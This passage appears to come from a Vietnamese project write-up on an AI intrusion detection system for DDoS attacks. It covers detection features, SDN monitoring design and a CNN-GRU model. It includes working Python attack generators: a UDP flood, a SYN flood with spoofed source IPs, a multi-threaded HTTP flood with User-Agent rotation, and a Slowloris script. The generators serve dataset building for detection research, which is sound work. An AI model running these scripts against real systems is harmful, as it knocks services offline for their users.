│  4 Loại được chọn ĐẠI DIỆN cho toàn bộ spectrum:                       │
│  • UDP Flood    → Volumetric (ăn băng thông)                           │
│  • SYN Flood    → Protocol (ăn connection table)                       │
│  • HTTP Flood   → Application (ăn CPU/DB resources)                      │
│  • Slowloris    → Slow Application (khó phát hiện nhất)                │
│                                                                         │
│  ❌ Không chọn: ICMP Flood (dễ block), DNS Amplify (cần infrastructure)   │
│  ❌ Không chọn: RUDY, LOIC (tương tự HTTP Flood)                        │
│  ✅ Chọn Slowloris: Độc nhất, khó nhất, không có trong dataset public    │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
```

#### **Phân Tích Chi Tiết Từng Loại Tấn Công**

##### **1. UDP Flood - Volumetric Attack (Layer 3)**

```python
"""
🔴 NGUY HIỂM: ★★★★☆ (4/5)
📊 Mức độ phổ biến: Rất cao (70% DDoS attacks)
⚡ Tốc độ: Cực nhanh (1M+ packets/sec)

Cơ chế tấn công:
├── UDP là connectionless (không cần handshake)
├── Attacker gửi UDP packets với kích thước lớn (65,507 bytes)
├── Không cần chờ response → Fire-and-forget
└── Target: Băng thông mạng + CPU xử lý packets

Biểu hiện trên hệ thống:
├── Network Interface: RX errors tăng vọt
├── CPU: System load cao (interrupt handling)
├── Memory: Kernel buffer đầy
└── Bandwidth: 100% utilization → Legitimate traffic bị drop

Tại sao khó phát hiện?
├── UDP traffic là hợp lệ (không malformed)
├── Có thể spoof source IP (không cần 3-way handshake)
└── Khác với TCP: không có connection state để track

Giải pháp phát hiện (V4):
├── Feature: Packet_Rate > 30,000 pps
├── Feature: Byte_Rate > 100MB/s
├── Feature: Port_Entropy ≈ 0 (fixed port)
└── nDPI: "Unknown" protocol (không phải HTTP/DNS)
"""
```

##### **2. SYN Flood - Protocol Attack (Layer 4)**

```python
"""
🔴 NGUY HIỂM: ★★★★★ (5/5) - Tấn công cổ điển nhưng vẫn hiệu quả
📊 Mức độ phổ biến: Cao (15% DDoS attacks)
⚡ Tốc độ: Nhanh (100K+ SYN packets/sec)

Cơ chế tấn công:
├── Khai thác TCP 3-way handshake
├── Attacker gửi SYN → Server allocates resources
├── Attacker không gửi ACK → Connection half-open
├── Server chờ timeout (thường 75 giây)
└── Connection table đầy → Không thể nhận kết nối mới

Biểu hiện trên hệ thống:
├── netstat -an: SYN_RECV connections hàng ngàn
├── Kernel: "TCP: out of memory -- consider tuning tcp_mem"
├── Ứng dụng: Không accept được connection mới
└── Legitimate users: "Connection timeout"

Tại sao KHÓ PHÁT HIỆN hơn UDP Flood?
├── SYN packets là hợp lệ TCP
├── Có thể spoof IP với random source
├── Traffic volume thấp hơn UDP nhưng hiệu quả hơn
└── Trông giống "busy server" hơn "attack"

Giải pháp phát hiện (V4):
├── Feature: Conn_State = 0 (half-open)
├── Feature: SYN packets >> ACK packets (ratio > 10:1)
├── Feature: Short Duration (< 1s per attempt)
└── Statistical: Src_IP entropy cao (spoofed)
"""
```

##### **3. HTTP Flood - Application Attack (Layer 7)**

```python
"""
🔴 NGUY HIỂM: ★★★★☆ (4/5) - Khó phát hiện vì trông giống normal
📊 Mức độ phổ biến: Cao và tăng (20% DDoS attacks)
⚡ Tốc độ: Trung bình (1K-10K requests/sec)

Cơ chế tấn công:
├── Attacker gửi HTTP requests HỢP LỆ
├── GET/POST đến URLs tốn nhiều resources
├── Ví dụ: /search?q=test (CPU intensive), /database (DB intensive)
├── Mỗi request kích hoạt: Nginx → WSGI → Database → Response
└── Server resources cạn kiệt (CPU/RAM/DB connections)

Biểu hiện trên hệ thống:
├── Nginx: Worker processes 100% CPU
├── Database: Connection pool exhausted
├── Application: Response time > 30 giây
└── Legitimate users: "504 Gateway Timeout"

Tại sao CỰC KỲ KHÓ PHÁT HIỆN?
├── Requests là hợp lệ (valid HTTP/1.1)
├── Headers đầy đủ (User-Agent, Accept, etc.)
├── Không có signature đặc biệt
├── Có thể rotate qua nhiều IPs (botnet)
└── Cloudflare/WAF thường không block (trông giống user thật)

Giải pháp phát hiện (V4):
├── Feature: Request rate >> Normal user (100x)
├── Feature: No think time (0s between requests)
├── Feature: URL entropy cao (random paths để bypass cache)
├── nDPI: "HTTP" protocol detected
└── Temporal: Pattern không có "bursts" như normal
"""
```

##### **4. Slowloris - Slow Application Attack (Layer 7)**

```python
"""
🔴 NGUY HIỂM: ★★★★★ (5/5) - "Sát thủ thầm lặng"
📊 Mức độ phổ biến: Trung bình nhưng nguy hiểm
⚡ Tốc độ: CỰC CHẬM (1 request mỗi 10-15 giây!)

Cơ chế tấn công:
├── Attacker mở HTTP connection
├── Gửi request từng phần, dần dần
├── Giữ connection sống bằng headers rác định kỳ
├── Không bao giờ kết thúc request (không gửi \r\n\r\n)
└── Server giữ connection mở chờ request hoàn chỉnh

Biểu hiện trên hệ thống:
├── Nginx: "upstream timed out" errors
├── netstat: ESTABLISHED connections hàng trăm từ 1 IP
├── Server: Đạt max connections nhưng traffic thấp
└── Legitimate users: "Cannot connect to server"

Tại sao ĐỘC NHẤT và KHÓ PHÁT HIỆN NHẤT?
├── Không cần nhiều bandwidth (1KB/s đủ)
├── Không cần nhiều packets (10-20 phút)
├── Trông giống "user chậm" hơn "attacker"
├── Firewalls/WAF thường không phát hiện (traffic thấp)
├── Cần timeout đặc biệt để detect (30s+)
└── KHÔNG CÓ TRONG CÁC DATASET CÔNG CỘNG!

Giải pháp phát hiện (V4):
├── Feature: Duration >> Normal (300-600s vs 5-30s)
├── Feature: Byte_Rate << Normal (1-5KB/s vs 100KB/s)
├── Feature: Packet_Rate thấp (10-20 packets/min)
├── Connection State: Established nhưng data transfer minimal
└── Timeout profile đặc biệt trong nfstream (30s active)
"""
```

#### **So Sánh 4 Loại Tấn Công:**

| Đặc điểm | UDP Flood | SYN Flood | HTTP Flood | Slowloris |
|----------|-----------|-----------|------------|-----------|
| **Layer** | 3 (Network) | 4 (Transport) | 7 (Application) | 7 (Application) |
| **Target** | Bandwidth | Connection Table | CPU/DB | Connection Pool |
| **Speed** | Very Fast | Fast | Medium | Very Slow |
| **Volume** | High (GB/s) | Medium (MB/s) | Low (MB/s) | Very Low (KB/s) |
| **Detection** | Easy | Medium | Hard | Very Hard |
| **Spoofable** | Yes | Yes | No | No |
| **Dataset** | Có sẵn | Có sẵn | Có sẵn | **KHÔNG CÓ** |

#### **Chữ Ký Đặc Trưng (Distinctive Signatures) - Từ Thực Nghiệm**

Dựa trên dữ liệu thu thập thực tế từ hệ thống:

```python
"""
CHỮ KÝ ĐẶC TRƯNG CỦA TỪNG LOẠI TRAFFIC (Từ note.txt)

Normal Traffic:
├── packet_rate: 20-50 packets/sec
├── byte_rate: ~5 KB/s
├── duration: < 5 giây (think time của user)
├── pattern: Request → Wait → Request (bursts)
└── entropy: Cao (nhiều port khác nhau)

UDP Flood Attack:
├── packet_rate: 1000+ packets/sec (CỰC CAO)
├── byte_rate: 50+ KB/s
├── asymmetry: Thấp (2 chiều tương đối cân bằng)
├── duration: Liên tục, không có "think time"
└── signature: "Cột cờ" trên biểu đồ Packet Rate

SYN Flood Attack:
├── packet_rate: 500+ packets/sec (Cao)
├── byte_rate: ~100 B/s (CỰC THẤP - chỉ gói SYN)
├── asymmetry: Cao (chỉ gửi, không nhận ACK)
├── conn_state: S0 (half-open connections)
└── signature: "Packet Rate cao nhưng Byte Rate thấp"

HTTP Flood Attack:
├── packet_rate: 100+ packets/sec
├── byte_rate: ~10 KB/s
├── l7_protocol: HTTP (detected by nDPI)
├── duration: 0.1s (NO think time)
├── pattern: RequestRequestRequest (bursts liên tục)
└── signature: "CPU web1 tăng vọt lên 100%"

Slowloris Attack:
├── packet_rate: 1-5 packets/sec (CỰC THẤP)
├── byte_rate: ~100 B/s (CỰC THẤP)
├── duration: 30-120 giây (CỰC DÀI)
├── connections: Max out (hàng trăm ESTABLISHED)
├── bandwidth: Gần như "tàng hình" (khó phát hiện)
└── signature: "Connections max nhưng bandwidth thấp"

→ Kết quả: Clear decision boundaries giữa các loại!
"""
```

#### **Lựa Chọn: Công Cụ Có Sẵn vs Tự Xây Dựng**

```python
"""
BÀI TOÁN: Dùng công cụ có sẵn (LOIC, HOIC, Hping3) hay tự viết?

❌ CÔNG CỤ CÓ SẴN:
├── LOIC/HOIC: Đã bị detect bởi hầu hết IDS
├── Không customizable (không điều chỉnh được pattern)
├── Chỉ có UDP/SYN, không có Slowloris
├── Không mô phỏng được "human-like" traffic
└── Dễ bị fingerprint và block

✅ TỰ XÂY DỰNG (Python + Socket):
├── Hoàn toàn customizable (timeout, payload, headers)
├── Có thể implement Slowloris (không tool nào có sẵn)
├── Mô phỏng chính xác hành vi thật:
│   ├── HTTP Flood: Random User-Agents, URLs, headers
│   ├── Slowloris: Partial requests, keep-alive
│   └── Normal: Think time, click patterns, session cookies
├── Không bị fingerprint (code tự viết = unique signature)
└── Tích hợp với Mininet topology seamlessly

QUYẾT ĐỊNH: Tự xây dựng tất cả các mã tấn công và normal behavior
Thời gian: 3 tuần (nhưng có hệ thống hoàn chỉnh, unique)
"""
```

#### **Quá Trình Nâng Cấp Web Để Sát Thực Tế**

```
┌─────────────────────────────────────────────────────────────────────────┐
│       🔄 EVOLUTION: Từ Web Đơn Giản → Production-Grade Web App          │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  V1: HTTP Static Website (Quá đơn giản)                                │
│  ├── Plain HTML pages                                                   │
│  ├── No database (không có state)                                      │
│  ├── No authentication                                                  │
│  └── ❌ Không đại diện cho web app thực tế                              │
│                                                                         │
│  ↓ Học hỏi: Web thực tế phức tạp hơn nhiều!                            │
│                                                                         │
│  V2: HTTP + Database (Better)                                          │
│  ├── Django + SQLite                                                    │
│  ├── User login/logout                                                  │
│  ├── Database queries (expensive operations)                            │
│  └── ✅ Attack có thể target DB (realistic HTTP Flood)                  │
│                                                                         │
│  ↓ Học hỏi: Cần proxy và caching giống production!                       │
│                                                                         │
│  V3: HTTP + Proxy + Cache (Advanced)                                   │
│  ├── Squid Proxy (8080)                                                 │
│  ├── Content caching (static files)                                     │
│  ├── Request aggregation (nhiều client → 1 proxy)                      │
│  └── ✅ Tạo "normal" traffic pattern phức tạp hơn                       │
│                                                                         │
│  ↓ Học hỏi: HTTPS là standard, AI không đọc được payload!               │
│                                                                         │
│  V4: HTTPS + TLS 1.3 + Database (Production-Grade) ⭐ FINAL             │
│  ├── Nginx + SSL Certificates                                           │
│  ├── TLS 1.3 (latest standard)                                           │
│  ├── End-to-end encryption                                              │
│  ├── Django REST API (database-heavy operations)                       │
│  ├── User sessions, authentication, form submissions                     │
│  └── ✅ GIỐNG HỆT web app thực tế hiện nay!                            │
│                                                                         │
│  💡 THÁCH THỨC VƯỢT QUA:                                                │
│  ├── AI không đọc được payload HTTPS (encrypted)                        │
│  │   └── Giải pháp: Dùng metadata (packet size, timing, entropy)        │
│  ├── Proxy làm phức tạp flow analysis                                  │
│  │   └── Giải pháp: X-Forwarded-For header parsing                     │
│  ├── Database queries tạo "bursts" khó phân loại                         │
│  │   └── Giải pháp: Temporal pattern analysis (10-flow sequences)      │
│  └── Session/cookies làm dài duration                                   │
│      └── Giải pháp: Differential features (thay đổi theo thời gian)    │
│                                                                         │
│  🎯 KẾT QUẢ:                                                            │
│  ├── Web giống 95% production websites                                    │
│  ├── Attack phải "thông minh" hơn để hiệu quả                          │
│  ├── AI học được pattern thực tế (không phải toy examples)             │
│  └── Dataset có giá trị thực tiễn cao                                  │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
```

#### **Thách Thức Khi Dùng HTTPS (AI Không Đọc Được Payload)**

```python
"""
VẤN ĐỀ: Khi dùng HTTPS, AI không thể đọc nội dung gói tin (encrypted)
→ Làm sao để phân biệt "GET /login" vs "GET /api/data"?

GIẢI PHÁP V4: Dùng Metadata thay vì Payload

Thay vì đọc HTTP headers (bị mã hóa):
❌ User-Agent: Mozilla/5.0... (không đọc được)
❌ URL path: /api/users (không đọc được)
❌ POST body: username=huy (không đọc được)

Dùng thông tin từ tầng thấp hơn:
✅ Packet size: Login request nhỏ, Upload request lớn
✅ Inter-packet timing: Login nhanh, Query chậm
✅ Flow duration: Static file ngắn, API call dài
✅ Packet count: Download nhiều packets, Upload ít
✅ nDPI protocol detection: HTTP/HTTPS/TLS/JSON

Ví dụ phân biệt:
├── Normal user browse: 
│   ├── 10-20 packets per page
│   ├── Duration: 1-3 giây (think time)
│   └── Pattern: Request → Wait → Request → Wait
├── HTTP Flood attack:
│   ├── 1000+ packets
│   ├── Duration: 0.1 giây (no think time)
│   └── Pattern: RequestRequestRequest (bursts)
└── AI phát hiện qua timing + pattern, không cần đọc content!

Đây chính xác là cách IDS thực tế hoạt động:
└── "Deep Packet Inspection" chỉ ở tầng metadata, không decrypt payload
"""
```

#### **Kết Luận Về Lựa Chọn Tấn Công & Xây Dựng Hệ Thống**

```
┌─────────────────────────────────────────────────────────────────────────┐
│       🎓 BÀI HỌC TỪ QUÁ TRÌNH TÌM HIỂU & CẢI TIẾN LIÊN TỤC              │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  1. Lựa chọn 4 loại tấn công đại diện cho toàn bộ DDoS spectrum:        │
│     ├── UDP: Volumetric (cần bandwidth lớn để phát hiện)               │
│     ├── SYN: Protocol (cần hiểu TCP state machine)                       │
│     ├── HTTP: Application (khó nhất vì giống normal)                 │
│     └── Slowloris: Unique (không có trong bất kỳ dataset nào)            │
│                                                                         │
│  2. Tự xây dựng mã tấn công thay vì dùng tool có sẵn:                    │
│     ├── Hoàn toàn customizable                                           │
│     ├── Mô phỏng chính xác hành vi thật                                  │
│     ├── Tích hợp seamless với Mininet                                   │
│     └── Unique signature (không bị block bởi signature-based IDS)        │
│                                                                         │
│  3. Nâng cấp web từ HTTP → HTTPS + Proxy + Database:                    │
│     ├── Bắt đầu: Static HTML (quá đơn giản)                              │
│     ├── Tiến hóa: Database + Authentication (realistic)                  │
│     ├── Thêm Proxy: Caching + Aggregation (production-like)              │
│     └── Final: HTTPS + TLS 1.3 (giống 95% websites hiện nay)           │
│                                                                         │
│  4. Thách thức HTTPS không phải là vấn đề mà là cơ hội:                  │
│     ├── Buộc AI phải học metadata patterns thay vì content             │
│     ├── Giống hệt cách IDS thực tế hoạt động                            │
│     └── Tăng độ khó → Tăng giá trị của hệ thống                         │
│                                                                         │
│  💪 TINH THẦN: Không ngừng cải tiến, học từ thất bại,                   │
│     từ đơn giản đến phức tạp, từ toy đến production-grade!               │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
```

### 7.4 ONOS Controller Integration

```python
# ONOS Integration (config_v2.py - SDNConfigV2)

class SDNConfigV2:
    """Cấu hình ONOS REST API cho SDN control plane"""
    
    # Controller Connection
    ONOS_URL = "http://10.0.0.50:8181/onos/v1"
    ONOS_AUTH = ("karaf", "karaf")  # Default ONOS credentials
    
    # Core Switch
    CORE_SWITCH_ID = "of:0000000000000006"
    CORE_SWITCH_DPID = "00:00:00:00:00:00:00:06"
    
    # Flow Rule Priorities
    DEFAULT_DROP_PRIORITY = 40000    # Higher = ưu tiên hơn
    RATE_LIMIT_PRIORITY = 30000
    NORMAL_FORWARD_PRIORITY = 1000
    
    # Timeouts
    TIMEOUT_SEC = 0  # 0 = permanent (manual removal required)
    IDLE_TIMEOUT = 300  # 5 minutes for rate limiting
    
    # EMA Parameters for Adaptive Threshold
    EMA_ALPHA = 0.02  # Learning rate chậm (chống adversarial)
    MIN_THRESHOLD = 0.1
    MAX_THRESHOLD = 2.0
```

---

## 8. 🔬 V4 Deep Dive - Giải Thích Lựa Chọn Công Nghệ

### 8.1 Lựa Chọn NFStream (So với Zeek, sFlow, NetFlow)

#### **Bài toán đặt ra:**
> Làm sao để có dữ liệu đầu vào cho mô hình AI vừa **nhanh**, vừa **đủ thông tin tầng 7**, vừa **không sập** khi bị DDoS flood?

#### **So sánh các phương án:**

| Công cụ | Tầng 7 DPI | Tốc độ | Tài nguyên | Nhận xét |
|---------|-----------|--------|------------|----------|
| **Zeek** | ✅ Rất tốt (Scripting) | ⚠️ Chậm (interpreted) | ❌ Cao (RAM/CPU) | Quá nặng cho real-time |
| **sFlow/sFlow-RT** | ❌ Không (chỉ L2-L4) | ✅ Nhanh | ✅ Thấp | Thiếu thông tin L7 |
| **NetFlow v9/IPFIX** | ❌ Giới hạn | ✅ Nhanh | ✅ Thấp | Thiếu payload analysis |
| **NFStream** | ✅ Tốt (nDPI C++) | ✅ Rất nhanh | ✅ Thấp | **Cân bằng tốt nhất** |

#### **Tại sao chọn NFStream?**

```python
"""
Lý do lựa chọn NFStream cho V4:

1. Đủ Tầng 7, không bị thừa:
   - Nó bóc tách được các thông tin Tầng 7 quan trọng (như nhận diện được 
     giao thức HTTP, TLS, trạng thái cờ TCP) để cung cấp cho mô hình 
     phân biệt HTTP Flood và SYN Flood.
   - Nó không "tham lam" phân tích quá sâu nội dung file hay URL như Zeek, 
     nên giữ được sự nhẹ nhàng.

2. Sức mạnh lõi C/C++:
   - Dù được viết bằng Python, "động cơ" bên dưới của NFStream là thư viện 
     nDPI (Deep Packet Inspection) viết bằng C. 
   - Điều này giúp nó xử lý hàng triệu gói tin mà mức tiêu thụ CPU/RAM cực kỳ 
     thấp, không làm treo máy tính khi mô phỏng mạng Mininet cực nặng.

3. Hội tụ thông tin (Flow-based):
   - Thay vì bắt từng gói tin đơn lẻ, nfstream tự động gom các gói tin thành 
     các Luồng (Flows) và tính toán sẵn các chỉ số thống kê (Duration, 
     Packet/Byte count theo cả 2 chiều src/dst). 
   - Đây chính xác là định dạng vector đặc trưng mà mô hình Autoencoder/GRU 
     cần để học.
"""
```

### 8.2 Port Mirroring (OVS) - Out-of-Band Monitoring

#### **Bài toán:**
> Nếu chạy bộ thu thập trực tiếp trên Web Server, điều gì xảy ra khi Web bị DDoS quá tải?

#### **Giải pháp:**

```python
"""
Thay vì chạy bộ thu thập trực tiếp trên Web Server (điều sẽ làm sập bộ thu 
thập nếu Web bị DDoS quá tải), hệ thống sử dụng tính năng Mirroring của 
Open vSwitch.

Toàn bộ lưu lượng đi qua Switch trung tâm (Gateway s6) được nhân bản và đẩy 
ra một cổng giám sát riêng (s6-eth1). nfstream đứng ở cổng an toàn này để 
"hứng" dữ liệu, đảm bảo dù Web1 có crash, tiến trình thu thập vẫn sống khỏe.
"""

# Implementation trong batPack_v2.py
class MirrorPortCapture:
    def __init__(self, mirror_interface="s6-eth1"):
        self.interface = mirror_interface
        # Capture từ port mirror, không phải từ web server
        self.streamer = NFStreamer(
            source=mirror_interface,
            snaplen=65535,
            idle_timeout=5,
            active_timeout=10
        )
```

### 8.3 Named Pipes (FIFO) - Zero-Copy IPC

#### **Bài toán:**
> Làm sao truyền dữ liệu tốc độ cao giữa nfstream và AI module mà không gây nghẽn cổ chai Disk I/O?

#### **Giải pháp:**

```python
"""
Để truyền dữ liệu tốc độ cao sang script tạo Dataset (auto_dataset_generator.py) 
hoặc module AI, hệ thống không ghi liên tục ra ổ cứng (sẽ gây nghẽn cổ chai Disk I/O). 

Thay vào đó, nfstream được kết hợp với ống FIFO (ví dụ: zeek_stream.json) để truyền 
dữ liệu trực tiếp qua RAM giữa các tiến trình Python. Điều này giải quyết bài toán 
đồng bộ luồng thời gian thực.

So sánh:
- Ghi file: Disk I/O ~ 100-500 MB/s, latency ~ 10-50ms
- FIFO IPC: RAM speed ~ 10-50 GB/s, latency ~ 0.1-1ms
→ Tốc độ nhanh hơn 100x, latency thấp hơn 50x
"""

# batPack_v2.py - FIFO Implementation
import os
import json

class FifoWriter:
    def __init__(self, fifo_path="zeek_stream.json"):
        self.fifo_path = fifo_path
        # Tạo FIFO nếu chưa tồn tại
        if not os.path.exists(fifo_path):
            os.mkfifo(fifo_path)
        
        # Mở ở chế độ non-blocking để tránh treo
        self.fifo_fd = os.open(fifo_path, os.O_WRONLY | os.O_NONBLOCK)
    
    def write_flow(self, flow_data):
        # Ghi trực tiếp vào RAM qua FIFO
        json_line = json.dumps(flow_data) + "\n"
        os.write(self.fifo_fd, json_line.encode())
```

### 8.4 Cách Lấy Dataset (auto_dataset_generator.py)

#### **Quy trình thu thập dữ liệu có kiểm soát:**

```python
"""
Dataset được thu thập một cách có hệ thống qua 5 phase:
- Phase 0: Normal (60s) - Baseline traffic
- Phase 1: UDP Flood (45s) - Volumetric attack
- Phase 2: SYN Flood (45s) - Connection exhaustion
- Phase 3: HTTP Flood (45s) - Application layer attack
- Phase 4: Slowloris (60s) - Slow application attack

Mỗi phase được điều phối bằng marker files để đồng bộ giữa các tiến trình.
"""

# auto_dataset_generator.py
class DatasetOrchestrator:
    PHASES = [
        {"name": "Normal", "duration": 60, "label": 0, "script": "normal.py"},
        {"name": "UDP_Flood", "duration": 45, "label": 1, "script": "udp_flood.py"},
        {"name": "SYN_Flood", "duration": 45, "label": 2, "script": "syn_flood.py"},
        {"name": "HTTP_Flood", "duration": 45, "label": 3, "script": "http_flood.py"},
        {"name": "Slowloris", "duration": 60, "label": 4, "script": "slowloris.py"},
    ]
    
    def run_phase(self, phase_idx):
        phase = self.PHASES[phase_idx]
        
        # 1. Tạo marker để báo hiệu cho batPack_v2
        marker_file = f".marker_{phase['name'].lower()}"
        open(marker_file, 'w').close()
        
        # 2. Chạy attack script
        for attacker in self.attackers:
            attacker.cmd(f"python3 traffic/{phase['script']} &")
        
        # 3. Chạy legitimate traffic song song (mô phỏng real world)
        for host in self.legitimate_hosts:
            host.cmd(f"python3 traffic/normal.py &")
        
        # 4. Đợi phase kết thúc
        time.sleep(phase['duration'])
        
        # 5. Dừng attack, giữ legitimate
        for attacker in self.attackers:
            attacker.cmd("pkill -f {phase['script']}")
        
        # 6. Xóa marker
        os.remove(marker_file)
```

### 8.5 Các Mã Tấn Công & Normal

#### **8.5.1 Normal Traffic (`traffic/normal.py`)**

```python
"""
Normal traffic mô phỏng hành vi người dùng thật:
- Có thời gian nghỉ (think time) ngẫu nhiên 1-5 giây
- Request các trang web khác nhau
- Có thể download file, upload form
- Kết nối qua Proxy (10.0.0.20:8080)
"""

class NormalUserBehavior:
    def __init__(self, target_urls):
        self.urls = target_urls
        self.session = requests.Session()
        self.session.proxies = {'http': 'http://10.0.0.20:8080'}
        
    def browse(self, duration=300):
        end_time = time.time() + duration
        while time.time() < end_time:
            # 1. Chọn URL ngẫu nhiên
            url = random.choice(self.urls)
            
            # 2. Think time (giả lập người dùng đọc trang)
            think_time = random.uniform(1, 5)
            time.sleep(think_time)
            
            # 3. Request
            try:
                response = self.session.get(url, timeout=10)
                # 4. Có thể click link trong trang (30% probability)
                if random.random() < 0.3:
                    self.follow_links(response.text)
            except:
                pass  # Retry logic
```

**Tại sao cần think time?**
- **Without**: request liên tục → model học "tốc độ cao = attack"
- **With**: request có pattern → model học "human-like = normal"

#### **8.5.2 UDP Flood (`traffic/udp_flood.py`)**

```python
"""
UDP Flood: Volumetric DDoS attack
- Gửi UDP packets với kích thước lớn (65,507 bytes)
- Tốc độ cực cao ( không giới hạn)
- Target: Cổng ngẫu nhiên hoặc cổng cố định
"""

class UDPFlooder:
    def __init__(self, target_ip, target_port=None):
        self.target = target_ip
        self.port = target_port or random.randint(1, 65535)
        # Tạo raw socket (cần root)
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        # Payload lớn nhất có thể
        self.payload = b'X' * 65507  # Max UDP payload
        
    def flood(self, duration=60):
        end_time = time.time() + duration
        packet_count = 0
        
        while time.time() < end_time:
            try:
                # Gửi không cần kết nối (connectionless)
                self.sock.sendto(self.payload, (self.target, self.port))
                packet_count += 1
            except:
                pass
        
        return packet_count  # Thường > 1 triệu packets trong 60s
```

**Đặc điểm nhận dạng:**
- Packet_Rate: 30,000-100,000 pps
- Byte_Rate: 100MB/s+
- Entropy: Thấp (port cố định hoặc pattern)
- Direction: Unidirectional (chỉ outbound)

#### **8.5.3 SYN Flood (`traffic/syn_flood.py`)**

```python
"""
SYN Flood: TCP Connection Exhaustion
- Gửi SYN packets nhưng không hoàn thành 3-way handshake
- Mục tiêu: Làm cạn kiệt bảng connection tracking của server
- Sử dụng Scapy để tạo raw TCP packets
"""

from scapy.all import IP, TCP, send

class SYNFlooder:
    def __init__(self, target_ip, target_port=80):
        self.target = target_ip
        self.port = target_port
        
    def flood(self, duration=60):
        end_time = time.time() + duration
        
        while time.time() < end_time:
            # Spoof source IP để tránh bị block
            src_ip = f"10.0.{random.randint(1,255)}.{random.randint(1,255)}"
            src_port = random.randint(1024, 65535)
            
            # Tạo SYN packet
            ip_layer = IP(src=src_ip, dst=self.target)
            tcp_layer = TCP(sport=src_port, dport=self.port, flags="S")
            
            # Gửi (loop để tốc độ cao)
            send(ip_layer/tcp_layer, verbose=0, loop=0)
```

**Đặc điểm nhận dạng:**
- Conn_State = 0 (không bidirectional)
- SYN packets cao, ACK packets thấp
- Packet_Rate: 10,000-50,000 pps
- Duration: Ngắn (0.1-1s per connection attempt)

#### **8.5.4 HTTP Flood (`traffic/http_flood.py`)**

```python
"""
HTTP Flood: Application Layer DDoS
- Gửi HTTP requests hợp lệ (GET/POST) với tốc độ cao
- Khó phát hiện hơn vì looks like legitimate traffic
- Target: Web server resources (CPU, DB connections)
"""

class HTTPFlooder:
    def __init__(self, target_url):
        self.url = target_url
        self.user_agents = [
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64)...",
            "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)...",
            # ... thêm nhiều UAs để tránh detection đơn giản
        ]
        
    def flood(self, duration=60, threads=100):
        """Multi-threaded HTTP flood"""
        
        def worker():
            session = requests.Session()
            end_time = time.time() + duration
            
            while time.time() < end_time:
                headers = {
                    'User-Agent': random.choice(self.user_agents),
                    'Accept': 'text/html,application/xhtml+xml,...',
                    'Accept-Encoding': 'gzip, deflate',
                    'Connection': 'keep-alive',
                }
                
                try:
                    # Random URL path để bypass caching
                    path = f"/page{random.randint(1,1000)}"
                    session.get(f"{self.url}{path}", headers=headers, timeout=5)
                except:
                    pass
        
        # Chạy nhiều threads
        thread_pool = [threading.Thread(target=worker) for _ in range(threads)]
        for t in thread_pool:
            t.start()
        for t in thread_pool:
            t.join()
```

**Đặc điểm nhận dạng:**
- HTTP protocol recognized by nDPI
- Request rate: 100-1000 req/s (cao hơn normal 10-100x)
- No think time between requests
- User-Agent rotation (nhưng pattern có thể detect)

#### **8.5.5 Slowloris (`traffic/slowloris.py`)**

```python
"""
Slowloris: Slow HTTP Attack
- Gửi HTTP request từng phần, giữ connection mở lâu
- Mục tiêu: Làm cạn kiệt connection pool của web server
- Rất khó phát hiện vì byte rate thấp, không giống DDoS thông thường
"""

class SlowlorisAttacker:
    def __init__(self, target, port=80, socket_count=200):
        self.target = target
        self.port = port
        self.socket_count = socket_count  # Số kết nối đồng thời
        self.sockets = []
        
    def create_connection(self):
        """Tạo 1 slow connection"""
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(4)
        sock.connect((self.target, self.port))
        
        # Gửi partial HTTP request
        sock.send(b"GET / HTTP/1.1\r\n")
        sock.send(f"Host: {self.target}\r\n".encode())
        # Không gửi \r\n\r\n để kết thúc request!
        
        return sock
    
    def maintain_connections(self, duration=300):
        """Giữ các connections sống bằng cách gửi headers rác định kỳ"""
        end_time = time.time() + duration
        
        while time.time() < end_time:
            # Gửi header rác để giữ connection alive
            for sock in self.sockets[:]:
                try:
                    sock.send(b"X-a: b\r\n")
                except:
                    # Connection died, recreate
                    self.sockets.remove(sock)
                    self.sockets.append(self.create_connection())
            
            # Sleep 10-15 giây giữa các lần gửi (slow!)
            time.sleep(random.uniform(10, 15))
```

**Đặc điểm nhận dạng:**
- Duration: Rất dài (300-600s vs normal 5-30s)
- Byte_Rate: Rất thấp (1-5 KB/s vs normal 100+ KB/s)
- Packet_Rate: Thấp (10-20 packets/min)
- Conn_State: Bidirectional nhưng traffic lệch (inbound >> outbound)

---

## 9. 🔧 Deep Dive - Chi Tiết Từng File Cấu Hình

### 9.1 `config_v2.py` - Neural Architecture Configuration

```python
"""
Tại sao chọn Parallel CNN-GRU thay vì Sequential?

Sequential (CNN → GRU):
- Vấn đề: CNN cần 50 epochs để hội tụ, GRU cũng cần 50 epochs
- Nhưng CNN đầu tiên chưa học gì → output là "garbage"
- GRU học từ garbage → học sai pattern

Parallel (CNN + GRU → Fusion):
- CNN input: raw features [B, Seq, 26]
- GRU input: raw features [B, Seq, 26] (không phụ thuộc CNN)
- Cả 2 học độc lập từ ground truth
- Fusion layer: kết hợp 2 perspectives
→ Accuracy tốt hơn 8-12%
"""

class ParallelFusionIDS(nn.Module):
    def __init__(self, num_classes=5, seq_len=10, input_dim=26):
        super().__init__()
        
        # ===== SPATIAL BRANCH (CNN) =====
        # Multi-scale kernels để bắt pattern ở nhiều độ phân giải
        self.cnn = nn.Sequential(
            # Kernel 3: Local pattern (3 flows liên tiếp)
            nn.Conv1d(input_dim, 64, kernel_size=3, padding=1),
            nn.BatchNorm1d(64),
            nn.ReLU(),
            nn.Dropout(0.3),
            
            # Kernel 5: Global pattern (5 flows = 1 Slowloris connection)
            nn.Conv1d(64, 128, kernel_size=5, padding=2),
            nn.BatchNorm1d(128),
            nn.ReLU(),
            nn.AdaptiveMaxPool1d(1),  # Global pooling
        )
        
        # ===== TEMPORAL BRANCH (Bi-GRU) =====
        # Bidirectional để bắt pattern xuôi và ngược
        self.gru = nn.GRU(
            input_size=input_dim,
            hidden_size=128,
            num_layers=2,
            batch_first=True,
            bidirectional=True,  # ← Quan trọng: nhìn cả 2 chiều thời gian
            dropout=0.3
        )
        
        # ===== FUSION & CLASSIFICATION =====
        # CNN output: 128, GRU output: 256 (128*2 vì bidirectional)
        self.fusion = nn.Sequential(
            nn.Linear(128 + 256, 256),
